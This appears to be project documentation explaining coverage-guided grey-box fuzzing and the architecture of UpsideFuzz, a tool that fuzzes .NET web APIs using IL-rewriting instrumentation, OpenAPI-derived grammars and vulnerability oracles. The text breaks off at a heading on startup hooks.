










# Grey-Box Fuzzing for .NET Web APIs Without Touching the Source

*A from-first-principles walkthrough of coverage-guided REST fuzzing, zero-edit runtime instrumentation, and vulnerability oracles that produce evidence instead of stack traces — written so a reader who has never fuzzed anything can follow every step, and a reader who fuzzes for a living can see exactly where the engineering decisions were made and why.*

---

## Who this is for, and how to read it

This document has two audiences at once, which is an unusual thing to ask of a single article, so it's worth saying up front how it's structured.

If you have never used a fuzzer, **Part I** builds the whole idea from nothing: what "fuzzing" means, why it works, why coverage feedback is the single most important idea in modern fuzzing, and why REST APIs are a genuinely different, harder target than the file-parsers and binaries fuzzing was originally built for. Read it in order — each section assumes only the previous one.

If you already know what AFL, coverage-guided fuzzing, and OpenAPI grammars are, you can skip to **Part II**, which is UpsideFuzz's actual architecture, told with the same level of engineering honesty as before: what's genuinely novel, what's a pragmatic re-implementation of prior art, and what plainly doesn't work yet. Nothing here is smoothed over for marketing purposes — several subsystems are explicitly labeled "partial" in the codebase's own roadmap ([`ARCHITECTURE_REVIEW.md`](ARCHITECTURE_REVIEW.md)), and this article keeps those labels rather than removing them.

The project is open source and in active development.

---

# Part I — Fuzzing, from zero

## 1. What "fuzzing" actually means

Fuzzing is a testing technique built on a simple bet: **if you feed a program a very large number of malformed, unexpected, or boundary-case inputs automatically, some of them will trigger behavior the program's authors never intended** — a crash, a hang, memory corruption, or (as this project cares about) a security check that silently doesn't fire.

The name comes from a 1988 University of Wisconsin study that literally ran Unix utilities against random ("fuzzed") input over a noisy phone line and found that a shocking fraction of standard command-line tools crashed on garbage input. That result generalizes: software is written to handle the inputs its author imagined, and there is always a gap between "the inputs the author imagined" and "the inputs that are actually possible to send." Fuzzing is the practice of automating the search for that gap instead of trying to imagine it by hand.

There are two very different ways to generate the inputs:

- **Generation-based fuzzing** builds inputs from a *model* of what a valid input looks like — a grammar, a schema, a protocol spec — and then deliberately breaks parts of that model. This is necessary whenever the input format is too specific for random bytes to ever look valid (a JSON body, a specific file format, an HTTP request). Section 4 below is entirely about why REST APIs need this.
- **Mutation-based fuzzing** takes an existing *valid* input (a "seed") and applies small random transformations to it — flip a bit, truncate a string, swap a byte, insert an oversized number — hoping the transformed input is still "valid enough" to be accepted but different enough to reach new behavior.

Nearly every serious fuzzer, including this one, combines both: generation gets you a structurally plausible starting point, mutation explores the space around it.

## 2. Why "just try random garbage" doesn't scale, and what coverage feedback fixes

Here's the problem with fuzzing naively: most software has *layers*. Consider a function that first checks `if (input.length < 4) return;` before doing anything interesting. A pure-random fuzzer generating 4-byte-or-shorter strings half the time will spend roughly half its entire budget never getting past that one check — and if the interesting logic is nested behind five such checks in sequence, the odds of ever satisfying all five by chance collapse exponentially. A REST API's validation layer is exactly this kind of nested-check gauntlet, many layers deep, and a fuzzer with no way to know which inputs got further than others is, in effect, guessing blind forever.

**Coverage-guided fuzzing** is the fix, and it is the single idea that took fuzzing from "occasionally finds something" to "the default way serious C/C++ codebases get tested" once AFL (American Fuzzy Lop) popularized it in 2013. The idea: instrument the target program so that every time it executes, the fuzzer can observe *which parts of the code actually ran* — not just whether the program crashed. Concretely, most coverage-guided fuzzers track **edges**: every time execution jumps from one basic block (a straight-line run of instructions with no branches) to another, that transition gets marked in a big shared array often called a **bitmap**.

This turns fuzzing from "try things and see if they crash" into a search algorithm with a fitness function:

1. Run an input. Check the bitmap: did this input cause any bitmap slot to light up that was never lit before ("new coverage")?
2. If yes, this input is *interesting* — it got past a check, or reached a branch, nobody has reached before. Save it as a new **seed**, because mutating something that already reached new code is far more likely to reach even-newer code than mutating something that didn't.
3. If no, this input probably just got rejected the same way as a hundred inputs before it. Don't waste much more time near it.
4. Repeat, always mutating from the corpus of "interesting" seeds discovered so far.

This is exactly the mechanism that solves the "five checks in a row" problem above: the fuzzer doesn't need to satisfy all five checks in one lucky guess. It needs to satisfy the *first* check once (that's new coverage — save it as a seed), then mutate variations of that seed until one satisfies the *second* check too (more new coverage, new seed), and so on. Coverage feedback turns an exponential search into an incremental, guided climb — this is precisely why AFL/libFuzzer-style tools using this idea outperform blind fuzzers by orders of magnitude on real-world software, and it is the foundational idea this entire project is built to bring to REST APIs.

A fuzzer that has this kind of feedback loop into the target's actual execution is called **grey-box** — it doesn't have full knowledge of the source (that would be *white-box*, like formal verification or symbolic execution), but it isn't flying fully blind either (that's *black-box* — spec-driven request generation with no idea what happened inside).



*The entire idea in one loop: instead of judging an input by "did it crash," judge it by "did it reach anywhere new." That single change is what lets the search climb through nested validation checks incrementally instead of needing to guess all of them at once.*

To make the difference concrete:



## 3. Why REST APIs are a different, harder kind of target

Coverage-guided fuzzing was invented for programs that look like `parse(bytes) -> crash_or_not`: a single process, a single input, run it, check if it died, repeat millions of times per second. A REST API violates almost every one of those assumptions:

1. **It's a long-running server, not a `main()`.** There's no clean "run once, reset, run again" cycle. Coverage accumulates continuously across every concurrent request a thread pool is handling, from every user, forever — a request from ten seconds ago and a request from right now both write into the same shared execution history. Any tool that wants per-input signal out of that has to solve an attribution problem native fuzzers don't have (see Part II §8).
2. **The interesting code is scattered across many separately-compiled units** (in .NET's case, many assemblies), some of which don't even exist yet when the server starts — plugin-style modules that load lazily on first use. A coverage mechanism that only hooks in at startup silently goes blind the moment such a module loads.
3. **You almost never get to touch the target's source.** For an actual security engagement the target is someone else's code, full stop. But even for your own code: requiring every team that wants to fuzz their API to add a NuGet package, edit `Program.cs`, and ship a "fuzzing build" that differs from the real build is exactly the kind of friction that makes teams quietly never actually do it. The section on instrumentation (Part II §7) is entirely about solving this.
4. **A crash is not the bug you're actually looking for.** For a file parser, a crash (a segfault, an assertion failure) usually *is* the vulnerability — memory corruption is directly exploitable. For a REST API, an unhandled `NullReferenceException` returning `500 Internal Server Error` is almost always just sloppy error handling: annoying, worth fixing, but not something an attacker can leverage. The bugs a security engagement is actually paid to find — one user reading another user's private data, a normal user granting themselves admin rights, a SQL injection hiding behind a validation layer that only *looks* like it sanitizes input — nearly always return a perfectly ordinary `200 OK`. A fuzzer that only watches for crashes will never see any of them, no matter how good its coverage feedback is. This is the reason Part II spends an entire section on **vulnerability oracles** (§13): the coverage loop tells you *where the fuzzer went*; it says nothing about *whether what happened there was a security bug*. Those are separate problems requiring separate machinery.
5. **Random bytes almost never look like a valid HTTP request body.** A JSON API expects `{"customerId": "3fa85f64-...", "items": [...], "currency": "USD"}` — a random byte-mutator flipping bits in that string will produce invalid JSON, or valid JSON missing a required field, and get rejected by the model binder before a single line of business logic runs. This is the "five checks in a row" problem from §2, except the first check (does this even parse as the expected shape) is nearly impossible to pass by accident. This is why REST API fuzzing needs a **grammar** — the next section is entirely about what that means and why.

UpsideFuzz exists because each of these five problems has a concrete engineering answer in the .NET ecosystem specifically, and — as far as this project's authors are aware — no existing open-source tool assembles all five answers into one pipeline. Part II is that pipeline.

## 4. What a "grammar" is, and why an API needs one before you can fuzz it at all

In the fuzzing world, a **grammar** is a formal description of what a *structurally valid* input looks like — not one valid input, but the *rules* that generate the whole space of valid inputs. For a REST API, that structure already exists, written down by the API's own authors: the **OpenAPI specification** (formerly "Swagger"), a JSON/YAML document every endpoint's shape gets described in — method, path, required/optional parameters, request body schema (field names, types, whether a field is required, sometimes constraints like `maxLength` or an `enum` of allowed values), and expected response shapes.

That's the grammar. Instead of guessing at what `POST /api/orders` wants, UpsideFuzz parses the target's own `swagger.json`/OpenAPI document directly and builds a **typed request template** for every operation: which fields exist, what type each one is (`string`, `integer`, `uuid`, `boolean`, `datetime`, a nested `object`, ...), which are required, and any constraints the spec itself declares. Fuzzing then starts from something the server is *likely to accept* — because it was built to satisfy the same rules the server's own validation was built against — and deliberately, surgically breaks specific parts of it, rather than firing bytes that never get past the front door.

Two refinements make this meaningfully sharper than "just read the spec":

- **The spec is not the whole truth.** An OpenAPI document is *documentation*, and documentation drifts from the code that actually enforces validation, or was simply never detailed enough to write in the first place (a `string` field with a `[StringLength(50)]` C# attribute the spec-generator never surfaced as `maxLength: 50`). UpsideFuzz additionally parses the target's actual C# source (when available) with a real compiler front-end (Roslyn — see Part II §9) to recover the validation rules the server *genuinely* enforces, which are sometimes stricter, sometimes different, and sometimes simply absent from the spec.
- **Some fields aren't independent — they're produced and consumed across requests.** `PUT /orders/{id}` needs a real order id, and the only place a real one exists is in the response of a successful `POST /orders`. A grammar that treats every field as independently fuzzable will send `PUT /orders/00000000-0000-0000-0000-000000000000` forever and never test the endpoint against a real object. UpsideFuzz's grammar compiler infers these **producer/consumer relationships** (which operation *creates* an id, which operations *consume* one of the same shape) so the engine can chain real values through — this is what "stateful fuzzing" means, covered in Part II §12.



*The grammar's whole job is turning "random bytes that die at the front door" into "a request the server accepts, with one deliberately broken part." Part II §9–§10 covers exactly how the two input sources on the left are parsed and merged.*

With that vocabulary in hand — coverage feedback, grey-box, seeds/corpus, mutation, grammar, producer/consumer — the rest of this document is UpsideFuzz's actual architecture.

---

# Part II — UpsideFuzz's Architecture

## 5. Design goals

- **Grey-box, on real .NET apps.** Coverage feedback from the actual instrumented binaries, not a proxy.
- **Zero-edit instrumentation.** No NuGet package added to the target, no `Program.cs` patch, no rebuild of the target's own project logic.
- **Fail-closed, self-verifying.** If instrumentation silently produced no coverage, the run must refuse to start — a green run with zero coverage is the worst possible outcome for a security tool, because it reads as "no bugs."
- **Evidence-based oracles.** A finding must carry a concrete exploitation signal (a cross-identity 2xx, a reflected privileged field, a measured time delay), not just a status code.
- **Honest reporting.** Distinguish "reproducible 500" from "proven vulnerability" from "the way we built the image broke dependency injection." Over-claiming destroys researcher trust faster than missing a bug.

## 6. The three subsystems, at a glance

UpsideFuzz is three loosely-joined programs, deliberately in three different languages chosen for what each is good at, communicating through plain files and HTTP rather than a shared in-memory model:



*Three languages, three responsibilities, joined by plain files and HTTP — not a shared in-memory model. The detailed, file-level version of this same picture follows.*

```
  .NET solution (source)
        │
        │  fuzz-prep-multi.py         dotnet/analyzer/ (Roslyn)      grammarc/ (OpenAPI→grammar)
        │  • detect projects/Docker    • per-property           • typed request model
        │  • generate instrumentor      constraints             • boundary synthesis
        │  • generate coverage hook     [Authorize]/routes       • producer/consumer deps
        ▼      (UpsideFuzz.Coverage)         │                        │
  Docker image                                └──── roslyn-constraints.json ──┐
        │  SharpFuzz IL rewrite of app DLLs                                   ▼
        │  DOTNET_STARTUP_HOOKS = /coverage/UpsideFuzz.Coverage.dll     templates.export.json
        │  /coverage_shm/bitmap  (tmpfs, sized at build time)                  │
        ▼                                                                     ▼
  Running API  ──── mmap bitmap / X-Coverage-Delta header ────►  void engine (Go)
                                                                  • epoch scheduler + MOpt
                                                                  • stateful sequences
                                                                  • oracles (BOLA/mass-assign/…)
                                                                  • crash cluster + triage + PoC
```

- **`fuzz-prep-multi.py` / `fuzzprep/` (Python)** is the .NET-facing half: it scans a solution, adapts (or generates) the Dockerfile/compose files, and wires in coverage instrumentation with no edits to the target's own source.
- **`grammarc/` (Python, stdlib-only) + `dotnet/analyzer/` (C#, Roslyn)** build the request grammar: the first parses the OpenAPI spec into a typed model, the second parses the actual C# source for real validation rules, and a merge step combines them.
- **`void/` (Go)** is the actual fuzzing engine: it loads the grammar, sends mutated requests, reads the coverage bitmap, runs the vulnerability oracles, and produces triaged, deduplicated findings.

The boundary between all three is deliberately dumb — a shared-memory bitmap, a handful of `/shm/*` HTTP endpoints, a `templates.export.json` file, a `dict.json` file — specifically so each half can be rewritten independently. That's not a hypothetical: the grammar path was in fact rewritten from an external tool (RESTler) to this project's own first-party compiler without the Go engine noticing or needing to change (see §10).

## 7. Instrumentation: how the fuzzer learns which code actually ran

### Why instrument at all, and why *IL rewriting*

Coverage feedback needs per-branch instrumentation of the target's own compiled code. For .NET there are, broadly, three ways to get it:

- The **CLR Profiler API** — the mechanism APM tools like Datadog/New Relic use to instrument .NET at runtime. Powerful, but heavyweight, native, and complex to build correctly.
- A **source-level Roslyn rewriter** — inject instrumentation calls directly into the C# before compiling. This requires rebuilding the target *from source*, which fails the "you almost never get to touch the target's source" constraint from §3.
- **IL rewriting** — .NET compiles C# down to an intermediate bytecode (IL, Intermediate Language) before it's ever JIT-compiled to machine code. A tool can open an already-*compiled* DLL, walk its IL, insert new instructions, and write out a modified DLL — no source access needed at all, because it operates on the artifact every .NET build already produces.

UpsideFuzz uses the third option, via **SharpFuzz** (built on **Mono.Cecil**, a mature .NET IL-manipulation library), which injects an AFL-style edge-tracking probe (`prev_location XOR cur_location`, the same scheme AFL itself uses) at the entry of every basic block, and writes the result into a shared bitmap.

IL rewriting wins here for a structural reason: it operates on the *published* output of a normal `dotnet publish`, so it works uniformly across a multi-project solution, requires no special build step from the target, and composes cleanly with Docker — the rewrite simply becomes one more build stage that runs over the publish output before the final image is assembled.

### The instrumentor's filter: what *not* to touch, and why that list is not obvious

The instrumentor (`dotnet/instrumentor/Program.cs`) is a thin CLI wrapper over `SharpFuzz.Fuzzer.Instrument`, but nearly all the actual engineering judgment lives in its **type filter** — deciding which of the target's types should be rewritten at all. Two exclusions are load-bearing and were each earned by a real production failure, not designed in from a whiteboard:

```csharp
// Entry-point types AND their compiler-generated closures fire coverage probes
// during type initialization — BEFORE the coverage runtime has bound the shared-
// memory pointer — causing an AccessViolationException at process startup.
if (fullName.EndsWith(".Program") || fullName.Contains(".Program+")
    || fullName.Contains("+<>c")          // lambda-cache classes (static init)
    || fullName.Contains("<Main>"))       // top-level-statements entry point
    return false;
```

This is a scar from a real failure: blanket instrumentation crashed Bitwarden's own entry point, in `Bit.Api.Program+<>c..cctor`, because a coverage probe fired while the trace type's shared-memory pointer was still null. The lesson generalizes past this one project: *anything that can execute before your coverage runtime has finished initializing must be excluded from instrumentation* — and in .NET, that quietly includes the compiler's own generated lambda-cache and closure classes nested under the entry point, not just the entry point class itself.

A second, subtler exclusion decision is `<Method>d__N` — the compiler-generated state-machine class every `async`/`await` method actually compiles to. It is tempting to lump these in with the other compiler-generated noise above and exclude them uniformly — and this project did exactly that for a while, before discovering the mistake: in a modern ASP.NET Core app almost *all* real business logic lives inside `async Task` methods, and the "outer" method you see in the source is just a thin stub that hands off to this compiler-generated state machine — which is where virtually all of the actual IL lives. Blanket-excluding it was silently blinding every coverage-dependent mechanism in the pipeline (coverage itself, the comparison-operand harvesting described later in this section, the constant extractor) on exactly the code that mattered most, while looking like everything was working (the app still ran, still returned responses — it just never lit up any bitmap bits for its own logic). Fixing this required verifying, independently, that the original static-initialization crash this exclusion list exists for is still caught by the narrower `+<>c`/`Program` checks alone — it is, and there's a dedicated regression test (`dotnet/instrumentor.Tests/InstrumentationFilterTests.cs`) asserting exactly that boundary.

### Zero-edit instrumentation via .NET startup hooks

